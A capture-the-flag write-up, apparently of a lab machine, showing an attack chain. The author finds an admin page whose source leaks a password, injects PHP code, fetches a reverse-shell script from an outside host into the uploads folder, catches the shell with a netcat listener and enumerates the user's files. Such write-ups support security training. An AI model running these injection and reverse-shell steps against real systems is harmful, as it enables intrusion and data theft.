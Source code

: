 dirb gets us `/admin.php`. looking at the source code we get the password:
`skoupidotenekes`. the user is … `admin`.

So now we get a form that allows inputting `php` code. let's first try:
```
<?php echo("test"); ?>
```

works as expected!

Let's enumerate the `cwd`:
```
<?php print_r(scandir('.')); ?>
```

```
Array ( [0] => . [1] => .. [2] => admin.php [3] => bg.png [4] => index.html [5] => leet.png [6] => uploads ) 
```

ok, now we know the `uploads` path. let's try to upload a shell and execute it by opening
it from the uploads directory.

let's fetch the php-reverse-shell.php:
```
<?php file_put_contents("uploads/motoko-shell.php", fopen("http://10.10.15.144:8000/php-reverse-shell.php", 'r')); ?>
```

start a netcat listener:
```
nc -lvp 4454
```

and click on the file in the uploads folder.

upgrade to shell:
```
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```

```
less /home/xalvas/user.txt
```

```
$ ls -lah
total 3.2M
drwxr-xr-x 7 xalvas xalvas 4.0K Jun 29 03:20 .
drwxr-xr-x 3 root   root   4.0K Jun 27 13:17 ..
-rw-r--r-- 1 xalvas xalvas  220 Jun 27 13:07 .bash_logout
-rw-r--r-- 1 xalvas xalvas 3.8K Jun 27 19:26 .bashrc
drwx------ 2 xalvas xalvas 4.0K Jun 27 19:36 .cache
-rw-rw-r-- 1 xalvas xalvas   43 Jun 27 18:11 .gdbinit
drwxrwxr-x 2 xalvas xalvas 4.0K Jun 27 19:24 .nano
-rw-r--r-- 1 xalvas xalvas  655 Jun 27 13:08 .profile
-rw-r--r-- 1 xalvas xalvas    0 Jun 27 13:03 .sudo_as_admin_successful
drwxr-xr-x 2 xalvas xalvas 4.0K Jun 27 13:07 alarmclocks
drwxr-x--- 2 root   xalvas 4.0K Jun 29 14:00 app
-rw-r--r-- 1 root   root    225 Jun 27 18:16 dontforget.txt
-rw-r--r-- 1 root   root   1.7K Nov  5 04:34 intrusions
drwxrwxr-x 4 xalvas xalvas 4.0K Jun 27 18:09 peda
-rw-r--r-- 1 xalvas xalvas 3.1M Jun 27 12:23 recov.wav
-rw-r--r-- 1 root   root     33 Jun 27 18:19 user.txt
```

## enumeration
```
$ set
APACHE_LOCK_DIR='/var/lock/apache2'
APACHE_LOG_DIR='/var/log/apache2'
APACHE_PID_FILE='/var/run/apache2/apache2.pid'
APACHE_RUN_DIR='/var/run/apache2'
APACHE_RUN_GROUP='www-data'
APACHE_RUN_USER='www-data'
IFS=' 	
'
LANG='C'
OLDPWD='/'
OPTIND='1'
PATH='/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin'
PPID='27235'
PS1='$ '
PS2='> '
PS4='+ '
PWD='/home/xalvas'
_='set'
```

18547936..*
